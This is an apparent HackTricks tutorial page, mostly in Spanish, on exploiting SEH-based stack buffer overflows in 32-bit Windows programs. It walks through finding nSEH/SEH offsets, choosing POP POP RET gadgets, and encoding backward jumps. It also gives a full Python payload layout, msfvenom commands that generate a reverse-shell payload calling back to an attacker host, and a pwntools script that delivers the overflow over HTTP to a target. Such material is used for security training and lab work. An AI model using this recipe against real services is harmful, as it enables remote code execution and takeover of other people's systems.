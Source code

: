 # Windows SEH-based Stack Overflow Exploitation (nSEH/SEH)

{{#include ../../banners/hacktricks-training.md}}

SEH-based exploitation es una técnica clásica de Windows x86 que abusa del Structured Exception Handler chain almacenado en la pila. Cuando un overflow de buffer en la pila sobrescribe los dos campos de 4 bytes

- nSEH: pointer to the next SEH record, and
- SEH: pointer to the exception handler function

un atacante puede tomar el control de la ejecución mediante:

1) Establecer SEH a la dirección de un POP POP RET gadget en un módulo no protegido, de modo que cuando se despache una excepción el gadget haga return hacia bytes controlados por el atacante, y
2) Usar nSEH para redirigir la ejecución (típicamente un salto corto) de vuelta al gran buffer desbordado donde reside el shellcode.

Esta técnica es específica de procesos de 32 bits (x86). En sistemas modernos, prefiera un módulo sin SafeSEH y ASLR para el gadget. Los caracteres problemáticos suelen incluir 0x00, 0x0a, 0x0d (NUL/CR/LF) debido a C-strings y al parsing HTTP.

---

## Finding exact offsets (nSEH / SEH)

- Crash the process and verify the SEH chain is overwritten (e.g., in x32dbg/x64dbg, check the SEH view).
- Send a cyclic pattern as the overflowing data and compute offsets of the two dwords that land in nSEH and SEH.

Example with peda/GEF/pwntools on a 1000-byte POST body:
```bash
# generate pattern (any tool is fine)
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
# or
python3 -c "from pwn import *; print(cyclic(1000).decode())"

# after crash, note the two 32-bit values from SEH view and compute offsets
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x32424163   # nSEH
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x41484241   # SEH
# ➜ offsets example: nSEH=660, SEH=664
```
Valida colocando marcadores en esas posiciones (p. ej., nSEH=b"BB", SEH=b"CC"). Mantén la longitud total constante para que el crash sea reproducible.

---

## Elegir un POP POP RET (SEH gadget)

Necesitas una secuencia POP POP RET para desempilar el frame SEH y regresar a tus bytes nSEH. Búscalo en un módulo sin SafeSEH y, idealmente, sin ASLR:

- Mona (Immunity/WinDbg): `!mona modules` luego `!mona seh -m modulename`.
- x64dbg plugin ERC.Xdbg: `ERC --SEH` para listar POP POP RET gadgets y el estado de SafeSEH.

Elige una dirección que no contenga badchars cuando se escriba en little-endian (p. ej., `p32(0x004094D8)`). Prefiere gadgets dentro del binario vulnerable si las protecciones lo permiten.

---

## Técnica de salto hacia atrás (short + near jmp)

nSEH solo tiene 4 bytes, lo que admite como máximo un short jump de 2 bytes (`EB xx`) más relleno. Si necesitas saltar hacia atrás cientos de bytes para alcanzar el inicio de tu buffer, usa un near jump de 5 bytes colocado justo antes de nSEH y encadénalo hacia él con un short jump desde nSEH.

Con nasmshell:
```text
nasm> jmp -660           ; too far for short; near jmp is 5 bytes
E967FDFFFF
nasm> jmp short -8       ; 2-byte short jmp fits in nSEH (with 2 bytes padding)
EBF6
nasm> jmp -652           ; 8 bytes closer (to account for short-jmp hop)
E96FFDFFFF
```
Idea de diseño para un payload de 1000 bytes con nSEH en offset 660:
```python
buffer_length = 1000
payload  = b"\x90"*50 + shellcode                    # NOP sled + shellcode at buffer start
payload += b"A" * (660 - 8 - len(payload))           # pad so we are 8 bytes before nSEH
payload += b"\xE9\x6F\xFD\xFF\xFF" + b"EEE"     # near jmp -652 (5B) + 3B padding
payload += b"\xEB\xF6" + b"BB"                      # nSEH: short jmp -8 + 2B pad
payload += p32(0x004094D8)                           # SEH: POP POP RET (no badchars)
payload += b"D" * (buffer_length - len(payload))
```
Flujo de ejecución:
- Ocurre una excepción, el dispatcher usa el SEH sobrescrito.
- POP POP RET desenrolla hacia nuestro nSEH.
- nSEH ejecuta `jmp short -8` hacia el near jump de 5 bytes.
- El Near jump aterriza al inicio de nuestro buffer donde residen el NOP sled + shellcode.

---

## Caracteres malos

Construye una cadena completa de badchars y compara la memoria de la pila después del crash, eliminando los bytes que son corrompidos por el parser objetivo. Para overflows basados en HTTP, `\x00\x0a\x0d` casi siempre están excluidos.
```python
badchars = bytes([x for x in range(1,256)])
payload  = b"A"*660 + b"BBBB" + b"CCCC" + badchars  # position appropriately for your case
```
---

## Generación de shellcode (x86)

Usa msfvenom con tus badchars. Un pequeño NOP sled ayuda a tolerar la variación del punto de aterrizaje.
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f python -v sc
```
Si se genera sobre la marcha, el formato hex es conveniente para embed y unhex en Python:
```bash
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> \
-b "\x00\x0a\x0d" -f hex
```
---

## Entrega vía HTTP (CRLF preciso + Content-Length)

Cuando el vector vulnerable es el cuerpo de una solicitud HTTP, construye una petición raw con CRLFs exactos y Content-Length para que el servidor lea todo el cuerpo que desborda.
```python
# pip install pwntools
from pwn import remote
host, port = "<TARGET_IP>", 8080
body = b"A" * 1000  # replace with the SEH-aware buffer above
req = f"""POST / HTTP/1.1
Host: {host}:{port}
User-Agent: curl/8.5.0
Accept: */*
Content-Length: {len(body)}
Connection: close

""".replace('\n','\r\n').encode() + body
p = remote(host, port)
p.send(req)
print(p.recvall(timeout=0.5))
p.close()
```
---

## Herramientas

- x32dbg/x64dbg para observar la cadena SEH y triagear el crash.
- ERC.Xdbg (x64dbg plugin) para enumerar SEH gadgets: `ERC --SEH`.
- Mona como alternativa: `!mona modules`, `!mona seh`.
- nasmshell para ensamblar short/near jumps y copiar raw opcodes.
- pwntools para crear payloads de red precisos.

---

## Notas y advertencias

- Solo aplica a procesos x86. x64 usa un esquema de SEH diferente y la explotación basada en SEH generalmente no es viable.
- Preferir gadgets en módulos sin SafeSEH y ASLR; de lo contrario, encontrar un módulo no protegido cargado en el proceso.
- Los watchdogs de servicio (service watchdogs) que reinician automáticamente tras un crash pueden facilitar el desarrollo iterativo del exploit.

## Referencias
- [HTB: Rainbow – SEH overflow to RCE over HTTP (0xdf)](https://0xdf.gitlab.io/2025/08/07/htb-rainbow.html)
- [ERC.Xdbg – Exploit Research Plugin for x64dbg (SEH search)](https://github.com/Andy53/ERC.Xdbg)
- [Corelan – Exploit writing tutorial part 7 (SEH)](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-7-unicode-0day-buffer-overflow-seh-and-venetian-shellcode/)
- [Mona.py – WinDbg/Immunity helper](https://github.com/corelan/mona)

{{#include ../../banners/hacktricks-training.md}}

